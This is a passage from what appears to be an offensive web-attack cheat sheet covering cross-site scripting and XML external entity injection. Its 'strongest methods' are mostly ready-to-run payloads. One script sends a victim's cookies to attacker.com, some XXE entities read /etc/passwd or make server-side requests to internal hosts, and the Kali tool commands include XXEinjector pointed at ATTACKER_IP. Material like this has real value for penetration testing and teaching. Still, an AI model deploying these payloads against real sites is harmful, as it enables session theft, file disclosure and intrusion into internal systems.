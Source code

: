 #### **Strongest Methods**
- **Stored XSS**:  
  ```html
  <script>alert('XSS')</script>
  ```  
  - Injects a persistent script into the application.  

- **DOM-Based XSS**:  
  ```javascript
  <img src="x" onerror="alert('XSS')">
  ```  
  - Exploits client-side JavaScript to execute malicious code.  

- **Blind XSS**:  
  ```html
  <script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>
  ```  
  - Sends stolen data (e.g., cookies) to the attacker’s server.  

#### **Kali Tools**
- **XSSer**:  
  ```bash
  xsser -u "http://example.com/page?param=value"
  ```  
  - Automates XSS detection and exploitation.  

- **Burp Suite**:  
  - Use Burp to manually test for XSS vulnerabilities.  

---

### **4. XML External Entity (XXE) Injection**
XXE attacks exploit poorly configured XML parsers to read files, execute commands, or perform SSRF.

#### **Strongest Methods**
- **File Read**:  
  ```xml
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <foo>&xxe;</foo>
  ```  
  - Reads the `/etc/passwd` file.  

- **SSRF (Server-Side Request Forgery)**:  
  ```xml
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal-server/"> ]>
  <foo>&xxe;</foo>
  ```  
  - Makes the server send requests to internal systems.  

#### **Kali Tools**
- **XXEinjector**:  
  ```bash
  ruby XXEinjector.rb --host=ATTACKER_IP --file=payload.xml
  ```  
  - Automates XXE exploitation.  
